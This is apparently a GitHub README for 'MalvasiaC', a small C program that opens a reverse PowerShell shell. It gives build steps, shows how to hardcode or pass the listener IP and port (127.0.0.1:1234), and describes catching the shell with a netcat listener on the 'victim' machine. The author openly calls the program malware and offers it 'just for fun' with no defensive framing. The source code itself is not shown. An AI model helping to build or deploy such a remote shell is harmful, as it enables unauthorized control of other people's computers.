


# MalvasiaC
## C classic (minimal) reverse powershell

This is a sample Powershell reverse shell, coded just for fun, keeping the stuff as simple as possible, considering my limited knowledge in C. Indeed the logo is much more cool than the program logic 😁

### Requirements
- This software has been coded on Windows using Visual Studio Code
- Follow the instruction [here](https://code.visualstudio.com/docs/languages/cpp) to get up & running
  - The compiling tasks require you have <b>MySys64-GCC</b> in the following location: "C:\msys64\ucrt64\bin\gcc.exe"
- Add the <b>-lws2_32</b> parameter to the compiler task [file](./.vscode/tasks.json)
- Powershell must be present on the client machine (AKA the victim)

### Configuration
You can hardcode the server IP and port around [line 20](./malvasia.c)
```c
char *CLIENT_IP = "127.0.0.1";
int CLIENT_PORT = 1234;
``` 
Eventually you can pass these values as parameters
```
.\malvasia.exe 127.0.0.1 1234
```

#### In action

1. Run the server (in this case using netcat)
2. Execute the client - this software (AKA the malware) - passing the server IP and port
3. Have fun running some powershell commands
